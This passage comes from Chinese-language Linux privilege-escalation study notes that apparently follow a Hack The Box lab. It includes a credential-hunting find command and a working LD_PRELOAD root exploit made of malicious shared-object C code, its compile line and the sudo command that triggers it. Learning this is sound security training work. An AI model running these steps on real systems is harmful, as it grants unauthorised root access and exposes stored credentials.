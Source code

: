 ### 8. 凭据搜索

> 在枚举系统时，我们可以在 配置文件、shell 脚本、用户的 bash 历史文件、备份文件、数据库文件甚至是文本文件中查找，这些凭据有助于权限提升
>
> `在凭据搜索中，我们也应该尽可能搜索 SSH 密钥文件`

```shell
 find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

### 9. 共享库

> Linux 程序通常使用动态连接的共享对象库，库包含编译后的代码或其他数据，在 Linux 中存在两种类型的库： 静态共享库由 .a 文件扩展名表示 和 动态共享对象库由 .so 文件扩展名表示，编译时静态库作为程序的一部分不能改变，但是可以修改动态库以控制调用他们的程序执行。
>
> 有多种指定动态库位置的方法，因此系统将知道在程序执行时在哪里寻找它们。 这包括编译程序时的 -rpath 或 -rpath-link 标志，使用环境变量 LD\_RUN\_PATH 或 LD\_LIBRARY\_PATH，将库放在 /lib 或 /usr/lib 默认目录中，或指定另一个包含库的目录 /etc/ ld.so.conf 配置文件。
>
> `LD_PRELOAD`环境变量可以在二进制文件执行前加载库，该库的函数优先于默认函数

```shell
# 查看二进制文还能所需的共享对象
htb_student@NIX02:~$ ldd /bin/ls
```

#### 使用 LD\_PRELOAD 权限提升

```shell
# 当前用户的权限
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart  # 该用户可以以 root 权限指定 apache 服务器的重启
```

编写自定义共享库文件并编译

```shell
# root.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

# 编译
gcc -fPIC -shared -o root.so root.c -nostartfiles

# 在目标机执行
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
